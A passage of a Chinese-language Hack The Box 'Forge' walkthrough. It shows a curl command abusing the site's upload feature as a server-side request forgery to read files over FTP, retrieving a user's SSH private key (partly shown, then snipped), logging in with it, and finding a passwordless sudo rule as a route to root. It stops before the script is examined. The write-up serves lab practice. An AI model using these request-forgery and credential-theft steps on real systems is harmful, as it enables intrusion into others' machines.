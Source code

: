 我花了一些时间试图找到一些有用的东西，最终记住你不能在 FTP 中看到隐藏的文件。会不会简单到用户有一个. ssh 文件夹，里面有一个我可以获取的私钥:

```
┌──(root💀kali)-[~/htb/forge]
└─# curl `curl -s -d 'url=http://ADMIN.FORGE.HTB/upload?u=ftp://<HIDDEN>@ADMIN.FORGE.HTB/user.txt&remote=1' -X POST http://forge.htb/upload | grep uploads | cut -d '"' -f 2`
<HIDDEN>
```

原来就是这么简单！让我们将它回显到 Kali 上的一个文件中，这样我们就可以使用它通过 SSH 进行连接:

```
┌──(root💀kali)-[~/htb/forge]
└─# echo "-----BEGIN OPENSSH PRIVATE KEY-----     
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gt
NhAAAAAwEAAQAAAYEAnZIO+Qywfgnftqo5as+orHW/w1WbrG6i6B7Tv2PdQ09NixOmtH
<SNIP>
-----END OPENSSH PRIVATE KEY-----
" > /root/htb/forge/id_rsa

┌──(root💀kali)-[~/htb/forge]
└─# chmod 600 id_rsa
```

# SSH 访问

现在我们可以以用户身份登录:

```
┌──(root💀kali)-[~/htb/forge]
└─# ssh -i id_rsa user@forge.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
Last login: Sat Oct 23 15:39:54 2021 from 10.10.15.24
-bash-5.0$ whoami
user
```

我首先检查了 sudo 权限，并立即找到了我们的升级途径:

```
-bash-5.0$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

# Python 脚本

我们可以在没有密码的情况下以 root 用户身份运行 python 脚本。让我们检查一下脚本:
